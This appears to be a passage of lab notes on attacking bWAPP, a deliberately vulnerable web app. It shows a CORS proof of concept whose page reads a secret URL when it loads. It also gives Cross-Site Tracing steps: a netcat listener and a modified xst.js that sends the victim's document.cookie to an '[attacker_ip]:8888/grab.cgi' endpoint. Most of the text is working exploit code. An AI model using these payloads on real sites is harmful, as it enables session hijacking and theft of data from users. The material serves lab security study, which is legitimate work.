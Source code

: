 ```
Access-Control-Allow-Origin: *
```

```
<html>
    <head>
    <script>
        function steal() {
            var r = new XMLHttpRequest();
            r.onreadystatechange = function() {
                if (r.readyState == 4 && r.status == 200) {
                    alert(r.responseText);
                }
            };
            r.open("GET", "http://192.168.1.10/bWAPP/secret-cors-1.php", true);
            r.send();
        }
    </script>
    </head>
    <body onload="steal()">
    </body>
</html>
```

### 💀  Cross-Site Tracing (XST) 💀

Doesn't work on modern browsers as there are security enforcements. Maybe use phantomJS?

I modified the POC to use GET instead of TRACE. Additional changes from original xst.js include making the onreadystatechange NOT inline (seems to play better with FF).

1.  Start listener on attacking machine: nc -l 8888

2.  Modify xst.js to match your environment:

```
var xmlhttp;
// Code for IE7+, Firefox, Chrome, Opera, Safari
if (window.XMLHttpRequest)
{
	xmlhttp=new XMLHttpRequest();
}
// Code for IE6, IE5
else
{
	xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}

xmlhttp.onreadystatechange=foo;

function foo()
{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
		xmlResp=xmlhttp.responseText;
		// document.getElementById("response").innerHTML=xmlResp
		alert(xmlResp);
		document.location="http://[attacker_ip]:8888/grab.cgi?"+document.cookie;
	}
}
// xmlhttp.open("TRACE","/bWAPP/",true);
xmlhttp.open("GET","/bWAPP/",true);
// xmlhttp.withCredentials = true;
xmlhttp.send();
```
